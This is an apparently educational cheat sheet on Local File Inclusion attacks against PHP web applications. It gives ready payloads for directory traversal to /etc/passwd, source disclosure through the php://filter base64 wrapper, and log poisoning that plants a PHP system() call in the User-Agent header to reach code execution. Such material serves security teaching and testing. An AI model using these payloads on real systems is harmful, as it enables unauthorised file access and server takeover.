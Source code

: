 **Local File Inclusion (LFI)** is a web vulnerability that occurs when an application allows users to include local files from the server through manipulable parameters. 

## **Identifying LFI**

Look for parameters that might reference files, such as:

- `file=`
- `page=`
- `template=`
- `lang=`

**Example vulnerable URL:**
```bash
http://example.com/index.php?page=home.php
```

By manipulating the `page` parameter, you might access unintended files.

## Exploitation Techniques

#### **Directory Traversal**

Use `../` to navigate directories on the server.

```bash
http://example.com/index.php?page=../../../../etc/passwd
```

#### **Forcing PHP File Inclusion Without Execution**

By default, including a `.php` file causes the server to execute it rather than display its source code. However, certain methods can bypass execution.

The `php://filter` wrapper allows you to manipulate file streams before execution. Using the `convert.base64-encode` filter, you can encode the PHP file's content and decode it locally.

```bash
http://<target>/vulnerable.php?file=php://filter/convert.base64-encode/resource=index.php
```
This returns the Base64-encoded content of `index.php`. Decode it with a tool or command:

```bash
echo "<base64_content>" | base64 -d
```

**Possible vulnerable files:**
- `index.php`
- `index.php.bak`
- `index.php.save`
- `.index.php.swp` 

#### **Log Poisoning**

Inject malicious PHP code into server logs and include the log file.

1. Send a request with malicious input in a header (e.g., `User-Agent`):
```bash
User-Agent: <?php system('id'); ?>
```

2. Access the log file:
```bash
http://example.com/index.php?page=/var/log/apache2/access.log
```